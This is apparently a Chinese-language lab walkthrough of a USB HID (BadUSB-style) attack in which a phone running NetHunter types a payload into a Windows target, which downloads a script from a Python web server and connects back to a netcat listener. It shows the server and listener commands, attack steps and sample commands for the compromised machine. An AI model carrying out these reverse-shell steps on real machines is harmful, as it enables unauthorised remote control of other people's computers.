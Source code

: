 ## 近源渗透体验
服务器配置
```python
#打开python服务器来访问ps脚本
cd /opt/shell;sudo python3 -m http.server 82 &
```

客户端
电脑打开就行

手机端
nethunter软件->duckhunter hid模块->选择rucky_reshell.txt


### 指南
一台电脑,一台手机,termius连接一台linux服务器
手机负责执行hid attack攻击
linux服务器,用来接收shell(即控制window)
window,用来当靶机

### 步骤
- 手机连接到电脑usb接口上,作为一个hid attack攻击设备
- linux监听本地端口,在命令行输入`sudo nc -lvnp 80`![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230912235031.png)
*监听成功标志*

- 单击设备上的preview,点击右上角三角符号开始攻击
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230914134508.png)


- 等待攻击完成即可执行任意命令
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230912235341.png)

*攻击成功标志*

部分命令指南

| 命令                            | 效果                                             | 举例 |
| ------------------------------- | ------------------------------------------------ | ---- |
| echo "\<content\>" > ~/\<name\> | 在对方桌面新建一个\<name\>文件,内容为\<content\> | echo "i am hacker" >~/Desktop/haha.txt     |
|                                 |                                                  |      |



